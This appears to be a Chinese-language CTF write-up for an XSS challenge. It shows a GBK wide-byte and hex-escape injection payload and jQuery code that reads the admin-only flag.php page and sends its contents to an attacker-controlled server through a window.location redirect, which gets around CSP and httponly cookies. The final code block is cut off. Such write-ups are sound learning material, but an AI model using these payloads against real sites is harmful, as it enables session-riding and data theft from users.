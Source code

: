 10、flag.php放了flag，只有admin能看到

让我们重新梳理整个题目的逻辑，首先我们需要构造一个xss。

# writeup #

## 构造xss ##

### 构造标签 ###

首先是基本的过滤，单双引号反引号还有尖括号都是直接被过滤的，但是我们在注意到，views.php页面是这样的


```
	<script>
	title="fda";
	content="fda";
	$("#title").html(title);
	$("#content").html(content);
	</script>
```

这里还有一个比较重要的信息是编码，我们可以看到页面中的编码是

```
	<meta charset="GBK">
```

这里最开始我的想法是通过传入`%df%5c`来转义双引号，闭合后一个双引号，这样conten位置就可以任意构造了，但是这里有个问题，因为js中字符串中不可以跨行，除非在行末标注一个反斜杠，于是这种想法卒了。

但是那么既然我们可以传入任意的反斜杠，而且jq的html会把十六进制转义为符号，我们就可以传入十六进制的方式来注入任意符号，比如说尖括号，这里有个小坑，就是html()和document.write不一样，写入的script标签会不执行，那么这里选择传入img或者svg标签。

payload
```
title=%df%5Cx3c%df%5Cx3e&content=%df%5Cx3cimg src=x onerror=alert(1)// c=%df%5Cx3e&submit=submit
```

### 绕过csp传出数据 ###

成功了，但是这里遇到了新的问题，第一个是我们如何把数据发送出来，因为csp的原因，我们没办法把数据传出来，这里我选择了`window.location`跳转到我的服务器上，通过查看log来绕过。

### 绕过没办法传入字符串的问题 ###

那么又有了新的问题，因为我们没办法传入单双引号（如果使用宽字节吞，会有一个特殊字符在符号前，js代码会直接报错），所以我们没办法直接传入字符串。

我这里使用了`window.location.search.substr(15,8)`来获取链接上的字符串（这里禁用了#号，所以没办法通过`window.location.search.substr(15,8)`来获取），然后在连接上加上新的参数。

### 绕过httponly ###

仔细看一下cookie，我们发现，session是httponly的，也就说我们没办法通过`document.cookie`获取到cookie，再配合上flag存在flag.php,这里我选择了构造jq的请求，获取flag.php的页面源码。

```

	$.get(
	    window.location.search.substr(15,8),{
	        id:     document.domain,
	    },function(data){
	        $.get(
			    window.location.search.substr(23),{
			        id:     data,
			    },function(data){
			        window.location=decodeURIComponent(window.location.search.substr(23))+encodeURIComponent(data);
			    }
```